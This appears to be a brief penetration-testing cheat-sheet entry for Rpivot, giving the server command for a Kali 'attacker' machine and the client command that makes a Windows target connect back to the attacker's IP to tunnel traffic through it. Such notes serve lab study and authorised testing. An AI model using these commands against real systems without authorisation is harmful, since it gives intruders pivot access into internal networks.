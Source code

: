 ## Rpivot 

Allows you to set up a SOCKS4 proxy on your local Kali machine that redirects through a Windows target machine.  

Found at:  https://github.com/klsecservices/rpivot

On the Kali Attacker machine:

```bash
python server.py --proxy-port 1080 --server-port 9999 --server-ip 0.0.0.0
```

On the Windows target:

```powershell
rpivot-client --server-ip 192.168.119.216 --server-port 9999
```

